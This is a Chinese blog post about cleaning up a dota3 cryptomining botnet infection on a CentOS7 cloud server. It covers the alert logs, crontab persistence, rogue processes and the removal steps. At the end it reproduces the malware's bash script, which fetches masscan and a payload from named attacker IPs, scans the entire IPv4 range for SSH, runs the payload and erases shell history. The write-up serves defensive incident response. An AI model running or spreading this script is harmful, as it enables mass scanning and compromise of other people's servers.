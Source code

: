 ```yaml
---
layout: post
title: CentOS7 下处理挖矿僵尸网络dota3木马攻击
tags: linux CentOS security
categories: security
---
```

<style type="text/css">
    p{text-indent: 20px}
</style>
<p>凌晨的时候，收到阿里云服务器的告警短信。<span style="color:red">紧急安全事件：访问恶意下载源，访问恶意下载IP。</span> 瞬间惊醒，立刻爬起来处理。</p>

<p>先登录阿里云后台，查看安全中心的告警祥情，发现有几条记录：</p>
```shell
父进程路径：/usr/bin/bash
父进程命令行：sh -c ./tddwrt7s.sh "http://67.205.135.65/dota3.tar.gz" 
"http://91.121.51.120/dota3.tar.gz" "http://51.75.28.134/dota3.tar.gz" 
"http://159.203.17.176/dota3.tar.gz" "http://46.101.113.206/dota3.tar.gz" 
"http://104.131.189.116/dota3.tar.gz" "http://81.12.13.145/dota3.tar.gz" >.out 2>&1 3>&1
```
***
```shell
父进程id：15912
进程id：15913
用户名：user_web
URL链接：http://91.121.51.120/dota3.tar.gz
进程路径：/usr/bin/bash
命令行参数：/bin/bash ./tddwrt7s.sh http://67.205.135.65/dota3.tar.gz 
http://91.121.51.120/dota3.tar.gz http://51.75.28.134/dota3.tar.gz 
http://159.203.17.176/dota3.tar.gz http://46.101.113.206/dota3.tar.gz 
http://104.131.189.116/dota3.tar.gz http://81.12.13.145/dota3.tar.gz
```
***
```shell
父进程路径：/usr/bin/bash
父进程命令行：-bash
父进程id：9071
进程id：9186
用户名：user_web
URL链接：http://45.55.129.23/dota3.tar.gz
进程路径：/usr/bin/wget
命令行参数：wget http://45.55.129.23/dota3.tar.gz
```
***

<span style="font-size: 40px;color: red">root账号，登录服务器，排查问题。</span>

查看服务器有无可疑的TCP端口：
```shell
$ netstat -lnpt
```
没有发现非常用端口。

根据告警信息，拿进程id找对应的进程，一个都没有找到。

### 一、立刻做几个操作：
1. 修改web_user密码（当前服务器除了root，就只有web_user授权ssh登录）；
2. 修改root密码，禁止root的ssh登录（只能先登录web_user，再切到root账号）；
3. 清掉root, web_user 目录下.ssh/authorized_keys 里面所有公钥（禁止所有密钥登录）；

然后，再一步步来查。
<p>没有找到对应的进程，看下是不是有crontab，定时执行，执行完进程就退出，找不到告警时的进程id。</p>

### 二、查找服务器所有账号的crontab:
```shell
$ cat /etc/passwd | cut -f 1 -d : |xargs -I {} crontab -l -u {}
...
no crontab for tcpdump
no crontab for ntp
no crontab for saslauth
no crontab for mysql
5 8 * * 0 /home/user_web/.configrc/a/upd>/dev/null 2>&1
@reboot /home/user_web/.configrc/a/upd>/dev/null 2>&1
5 8 * * 0 /home/user_web/.configrc/b/sync>/dev/null 2>&1
@reboot /home/user_web/.configrc/b/sync>/dev/null 2>&1  
0 0 */3 * * /tmp/.X25-unix/.rsync/c/aptitude>/dev/null 2>&1
no crontab for haproxy
...
```
发现了crontab，脚本在user_web目录。

- 立刻删除 /home/user_web/目录下，crontab使用的 和 不认识的隐藏目录。
- 查看是不是user_web账号起的crontab：
```shell
$ crontab  -l -u user_web
5 8 * * 0 /home/user_web/.configrc/a/upd>/dev/null 2>&1
@reboot /home/user_web/.configrc/a/upd>/dev/null 2>&1
5 8 * * 0 /home/user_web/.configrc/b/sync>/dev/null 2>&1
@reboot /home/user_web/.configrc/b/sync>/dev/null 2>&1  
0 0 */3 * * /tmp/.X25-unix/.rsync/c/aptitude>/dev/null 2>&1
```
果然是user_web起的。

- 清理web_user下所有的crontab。
```shell
$ crontab  -r -u user_web
```

### 三、查找还有没有使用user_web账号运行的进程：
```shell
$ ps -ef | grep user_web
user_web      25408     1  0 00:14 ?        00:00:00 /tmp/.X25-unix/.rsync/c/lib/64/tsm --library-path /tmp/.X25-unix/.rsync/c/lib/64/ /tmp/.X25-unix/.rsync/c/tsm64 -t 515 -f 1 -s 12 -S 10 -p 0 -d 1 p ip
root     32695 30901  0 01:06 pts/1    00:00:00 grep --color=auto user_web
```
找到了user_web执行的进程，脚本文件所在的路径，在 /tmp/ 目录下的隐藏文件。

先杀掉进程：
```shell
$ kill -9 25408
```
进入目录：
```shell
$ cd /tmp/
```
进入目录，查看包括隐藏文件在内的所有文件：
```shell
$ ls -la
```
删掉隐藏目录：
```shell
$ rm -rf .X25-unix
```

### 四、根据告警中出现的进程路径/usr/bin/bash，再次查找sh脚本进程：
```shell
$ ps -ef | grep sh
user_web  3768      1  0 00:00 ?      00:00:00 /bin/bash ./go
root      24487     1  0 Mar25 ?      01:53:25 /usr/sbin/sshd -D
user_web  25403 25402  0 00:14 ?      00:00:00 /bin/bash ./tsm -t 515 -f 1 -s 12 -S 10 -p 0 -d 1 p ip
root      30862 24487  0 01:37 ?      00:00:01 sshd: user_web [priv]
user_web  30866 30862  0 01:37 ?      00:00:00 sshd: user_web@pts/1
user_web  30867 30866  0 01:37 pts/1  00:00:00 -bash
root      30901 30896  0 01:38 pts/1  00:00:00 bash
root      31799 30901  0 01:53 pts/1  00:00:00 grep --color=auto sh
```
又找到了几个可疑的进程。查看进程信息，找进程执行路径cwd，对应的执行命令cmd：
```shell
$ ll /proc/25403 
```
找到进程脚本路径，杀掉进程，再删掉脚本文件所在的文件夹：

至此，清理完毕。

### 后续： 加强异地登录的告警，强化账号登录的认证，添加部署谷歌验证器(Google Authenticator) 

>后记，观察几天，再没有收到阿里云的告警信息。

***

附sh脚本源码，请勿违法实验，仅供学习研究：
```shell
#!/bin/bash

if [[ $(id -u) -ne 0 ]] ; then echo "Please run as root" ; exit 1 ; fi

PR=1
PR=$(cat /proc/cpuinfo | grep model | grep name | wc -l)

ARCH=`uname -m`

if [[ "$ARCH" =~ ^arm ]]; then
    echo "Arm detected. Exiting"    
    exit
fi

if [ $PR -gt 9 ]; then
    echo "Too many CPUs. Exiting" 
    exit
else
    echo "CPUs ok"

#random sleep, for flood protection
rm -rf masscan*
rm -rf input.txt*

RANGE=440
s=$RANDOM
let "s %= $RANGE"
sleep $s
echo "test"

#is it good for masscan?

wget -q http://45.55.210.248/masscan || curl -s O -f http://104.236.72.182/masscan
sleep 25m
chmod 777 masscan
timeout 20s nohup ./masscan -p 22 --banner --rate 50000 --exclude 255.255.255.255 --exclude 10.0.0.0/8 --exclude 192.168.0.0/16 --exclude 127.0.0.0/8   --range 1.0.0.0-223.255.255.255 > input.txt 

sleep 1m

got=$(cat input.txt | grep OpenSSH | wc -l | awk -F: '{if($0>1)print$0}')

rm -rf masscan*
# if got > 1000; good for masscan; else exit

if [ $got -lt 1000 ]; then
    echo "Bad for masscan. Exiting" 
    rm -rf input.txt*
    exit
else
    echo "Good for masscan. Executing"
    rm -rf input.txt*
    #all good

    pkill -9 screen
    pkill -9 mass
    pkill -9 scan

    apt install expect -y
    yum install expect -y

    sleep 5s

    rm -rf /.a
    cd  / 
    mkdir .a
    cd .a
    wget -q http://45.55.129.23/mas.tar.gz || curl -s O -f http://45.55.129.23/mas.tar.gz 
    sleep 25m && tar xvf mas.tar.gz 
    rm -rf mas.tar.gz
    cd mass2ip
    nohup ./mass.sh >>/dev/null 2>1& 
    cd ~ 
    rm -rf .bash_history 
    history -c 
    history -nc
    fi
fi
```
